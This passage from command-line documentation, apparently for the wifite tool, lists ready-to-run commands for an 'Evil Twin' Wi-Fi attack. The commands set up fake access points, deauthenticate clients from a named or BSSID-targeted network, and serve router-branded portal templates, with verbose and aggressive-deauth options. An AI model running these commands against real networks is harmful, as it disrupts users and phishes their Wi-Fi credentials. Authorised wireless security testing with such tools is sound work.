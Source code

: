 ### Common Command Combinations

```bash
# Attack all targets with Evil Twin
sudo wifite --eviltwin

# Attack specific network by name
sudo wifite --eviltwin -e "TargetNetwork"

# Attack specific network by BSSID
sudo wifite --eviltwin -b AA:BB:CC:DD:EE:FF

# Use specific interfaces
sudo wifite --eviltwin \
  --eviltwin-fakeap-iface wlan1 \
  --eviltwin-deauth-iface wlan0mon

# Use custom template and port
sudo wifite --eviltwin \
  --eviltwin-template tplink \
  --eviltwin-port 8080

# Aggressive deauth (faster client capture)
sudo wifite --eviltwin --eviltwin-deauth-interval 3

# Testing mode (no validation)
sudo wifite --eviltwin --eviltwin-no-validate

# Full custom attack
sudo wifite --eviltwin \
  -b AA:BB:CC:DD:EE:FF \
  --eviltwin-fakeap-iface wlan1 \
  --eviltwin-deauth-iface wlan0mon \
  --eviltwin-template netgear \
  --eviltwin-deauth-interval 5 \
  --eviltwin-port 80 \
  -vv
```

### Verbose Modes

```bash
# Basic info
sudo wifite --eviltwin -v

# Detailed info (recommended)
sudo wifite --eviltwin -vv

# Full debug output
sudo wifite --eviltwin -vvv
```

---